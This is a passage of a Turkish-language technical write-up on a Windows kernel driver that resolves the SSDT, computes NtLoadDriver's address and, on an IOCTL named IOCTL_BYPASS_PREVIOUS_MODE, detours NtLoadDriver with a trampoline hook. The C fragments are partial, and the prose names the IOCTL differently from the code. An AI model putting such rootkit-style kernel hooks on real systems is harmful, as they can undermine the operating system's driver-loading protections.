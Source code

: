 Hedef aldığım kısımda SSDT'nin+0x20 adresi ile rbx'nin değeri kontrol edilmekte. Benimde kafama çok basit bir yöntem geldi ve madem SSDT'nin adresi kullanılıyor, bende opcode'ları okuyarak adresini elde etmeye karar verdim. Basit olduğunun farkındayım. Eğer bu konuya yakından araştırmak isterseniz [Medium makaleme](https://medium.com/@0xbekoo/finding-ssdt-address-with-driver-c8b6bb60d722) göz atabilirsiniz.

```c
UINT32 Offset = *(PUINT32)((PUCHAR)SSDTAddress + 4 * SSN_NTLOADDRIVER);
 DbgPrintEx(0, 0, "Offset: 0x%x\n", Offset);

 g_NtLoadDriverAddress = (PVOID)((PUCHAR)SSDTAddress + (Offset >> 4));
 DbgPrintEx(0, 0, "NtLoadDriver Address: 0x%p\n\n", g_NtLoadDriverAddress);
```

SSDT'nin adresini aldıktan sonra ise bilinen formüller aracılığıyla NtLoadDriver'ın adresini hesaplıyoruz. Formüllerimizi unutmayalım. 

```c
NTSTATUS IoControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
 UNREFERENCED_PARAMETER(DeviceObject);

 PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
 BOOLEAN Value;
 switch (Stack->Parameters.DeviceIoControl.IoControlCode) {

 case IOCTL_BYPASS_PREVIOUS_MODE:
  Value = *(PBOOLEAN)Irp->AssociatedIrp.SystemBuffer;
  if (!Value) {
   Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
   Irp->IoStatus.Information = 0;
   break;
  }
  DbgPrintEx(0, 0, "IOCTL code received (IOCTL_BYPASS_PREVIOUS_MODE)\n");

  HkDetourFunction((PVOID)g_NtLoadDriverAddress, (PVOID)HookedNtLoadDriver, 20, (PVOID*)&OriginalNtLoadDriver);

  Irp->IoStatus.Status = STATUS_SUCCESS;
  Irp->IoStatus.Information = 0;
  break;

 default:
  Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
  Irp->IoStatus.Information = 0;
  break;
 }
 IoCompleteRequest(Irp, IO_NO_INCREMENT);

 return Irp->IoStatus.Status;
}
```

Daha sonra IoControl fonksiyonu altında User-Mode programın göndereceği **IOCTL_TRAMPOLINE** kodunu işliyoruz. Burada gözünüze **HkDetourFunction** çarpması lazım çünkü NtLoadDriver'ın adresine trambolini yerleştiren fonksiyon bu.
